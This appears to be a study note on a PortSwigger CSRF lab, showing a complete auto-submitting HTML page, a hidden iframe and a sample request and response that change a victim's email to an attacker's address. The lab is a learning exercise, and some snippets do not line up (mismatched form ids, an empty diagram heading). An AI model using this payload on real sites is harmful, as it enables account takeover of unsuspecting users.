

## Crafting the Malicious Request

The first step in a CSRF attack is to craft a malicious request that will perform the desired action on the web application. In this case, we want to change the user's email address.

### Step 1: Identify the Form

We need to identify the form on the web application that allows users to change their email address. Let's assume the form looks like this:

```html
<form id="email-change-form" method="POST" action="/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
```

### Step 2: Automate Form Submission

Next, we need to automate the submission of this form when the user clicks on a link. We can achieve this by embedding a JavaScript snippet that triggers the form submission.

```html
<a href="#" onclick="document.getElementById('csrf-form').submit(); return false;">Click here</a>
```

### Step 3: Embed the Form in an iFrame

To hide the form submission from the user, we can embed the form in an invisible iframe. This way, when the user clicks the link, the form is submitted without them noticing.

```html
<iframe style="display:none;" src="malicious.html"></iframe>
```

### Complete Example

Here is the complete example of the malicious HTML page (`malicious.html`):

```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
</head>
<body>
    <form id="csrf-form" method="POST" action="https://vulnerable-app.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

### Explanation

- **Form**: The form contains a hidden input field with the new email address.
- **JavaScript**: The JavaScript snippet automatically submits the form when the page loads.
- **iFrame**: The iframe is used to load the malicious page invisibly, triggering the form submission.

### Raw HTTP Request and Response

When the form is submitted, the following HTTP request is sent:

```http
POST /change-email HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

email=attacker%40example.com
```

And the server responds with:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 123

Email address successfully changed to attacker@example.com
```

### Mermaid Diagram: Attack Flow



---
<!-- nav -->
[[03-Lab 7 CSRF Where Referer Validation Depends on Header Being Present|Lab 7 CSRF Where Referer Validation Depends on Header Being Present]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/08-Lab 7 CSRF where Referer validation depends on header being present/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/08-Lab 7 CSRF where Referer validation depends on header being present/05-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]]
